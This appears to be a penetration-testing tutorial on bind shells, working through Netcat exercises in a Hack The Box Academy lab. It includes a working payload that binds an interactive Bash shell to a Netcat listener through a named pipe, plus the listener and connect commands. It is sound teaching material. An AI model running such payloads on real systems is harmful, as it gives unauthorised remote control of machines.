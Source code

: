 # Bind Shells

In many cases, we will be working to establish a shell on a system on a local or remote network. This means we will be looking to use the terminal emulator application on our local attack box to control the remote system through its shell. This is typically done by using a `Bind` &/or `Reverse` shell.

## What Is It?

With a bind shell, the `target` system has a listener started and awaits a connection from a pentester's system (attack box).

## **Bind Example**

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

As seen in the image, we would connect directly with the `IP address` and `port` listening on the target. There can be many challenges associated with getting a shell this way. Here are some to consider:

* There would have to be a listener already started on the target.
* If there is no listener started, we would need to find a way to make this happen.
* Admins typically configure strict incoming firewall rules and NAT (with PAT implementation) on the edge of the network (public-facing), so we would need to be on the internal network already.
* Operating system firewalls (on Windows & Linux) will likely block most incoming connections that aren't associated with trusted network-based applications.

OS firewalls can be troublesome when establishing a shell since we need to consider IP addresses, ports, and the tool in use to get our connection working successfully. In the example above, the application used to start the listener is called [GNU Netcat](https://en.wikipedia.org/wiki/Netcat). `Netcat` (`nc`) is considered our `Swiss-Army Knife` since it can function over TCP, UDP, and Unix sockets. It's capable of using IPv4 & IPv6, opening and listening on sockets, operating as a proxy, and even dealing with text input and output. We would use nc on the attack box as our `client`, and the target would be the `server`.

Let's get a more in-depth understanding of this by practicing with Netcat and establishing a bind shell connection with a host on the same network with no restrictions in place.

## Practicing with GNU Netcat

First, we need to spawn our attack box or Pwnbox and connect to the Academy network environment. Then make sure our target is started. In this scenario, we will be interacting with an Ubuntu Linux system to understand the nature of a bind shell. To do this, we will be using `netcat` (`nc`) on the client and server.

### **No. 1: Server - Target starting Netcat listener**

Once connected to the target box with ssh, start a Netcat listener:

```shell-session
Target@server:~$ nc -lvnp 7777

Listening on [0.0.0.0] (family 0, port 7777)
```

In this instance, the target will be our server, and the attack box will be our client. Once we hit enter, the listener is started and awaiting a connection from the client.

### **No. 2: Client - Attack box connecting to target**

Back on the client (attack box), we will use nc to connect to the listener we started on the server.

```bash
al1abb@htb[/htb]$ nc -nv 10.129.41.200 7777

Connection to 10.129.41.200 7777 port [tcp/*] succeeded!
```

Notice how we are using nc on the client and the server. On the client-side, we specify the server's IP address and the port that we configured to listen on (`7777`). Once we successfully connect, we can see a `succeeded!` message on the client as shown above and a `received!` message on the server, as seen below.

### **No. 3: Server - Target receiving connection from client**

```shell-session
Target@server:~$ nc -lvnp 7777

Listening on [0.0.0.0] (family 0, port 7777)
Connection from 10.10.14.117 51872 received! 
```

Know that this is not a proper shell. It is just a Netcat TCP session we have established. We can see its functionality by typing a simple message on the client-side and viewing it received on the server-side.

### **No. 4: Client - Attack box sending message Hello Academy**

```shell-session
al1abb@htb[/htb]$ nc -nv 10.129.41.200 7777

Connection to 10.129.41.200 7777 port [tcp/*] succeeded!
Hello Academy  
```

Once we type the message and hit enter, we will notice the message is received on the server-side.

### **No. 5: Server - Target receiving Hello Academy message**

```shell-session
Victim@server:~$ nc -lvnp 7777

Listening on [0.0.0.0] (family 0, port 7777)
Connection from 10.10.14.117 51914 received!
Hello Academy  
```

{% hint style="info" %}
Note: When on the academy network (10.129.x.x/16) we can work with another academy student to connect to their target box and practice the concepts presented in this module.
{% endhint %}

## Establishing a Basic Bind Shell with Netcat

We have shown that we can use Netcat to send text between the client and the server, but this is not a bind shell because we cannot interact with the OS and file system. We are only able to pass text within the pipe setup by Netcat. Let's use Netcat to serve up our shell to establish a real bind shell.

On the server-side, we will need to specify the `directory`, `shell`, `listener`, work with some `pipelines`, and `input` & `output` `redirection` to ensure a shell to the system gets served when the client attempts to connect.

### **No. 1: Server - Binding a Bash shell to the TCP session**

```shell-session
Target@server:~$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f
```

The commands above are considered our payload, and we delivered this payload manually. We will notice that the commands and code in our payloads will differ depending on the host operating system we are delivering it to.

### **No. 2: Client - Connecting to bind shell on target**

Back on the client, use Netcat to connect to the server now that a shell on the server is being served.

```shell-session
al1abb@htb[/htb]$ nc -nv 10.129.41.200 7777

Target@server:~$  
```

We will notice that we have successfully established a bind shell session with the target. Keep in mind that we had complete control over both our attack box and the target system in this scenario, which isn't typical. We worked through these exercises to understand the basics of the bind shell and how it works without any security controls (NAT enabled routers, hardware firewalls, Web Application Firewalls, IDS, IPS, OS firewalls, endpoint protection, authentication mechanisms, etc...) in place or exploits needed. This fundamental understanding will be helpful as we get into more challenging situations and realistic scenarios working with vulnerable systems.

As mentioned earlier in this section, it is also good to remember that the bind shell is much easier to defend against. Since the connection will be received incoming, it is more likely to get detected and blocked by firewalls even if standard ports are used when starting a listener. There are ways to get around this by using a reverse shell which we will discuss in the next section.
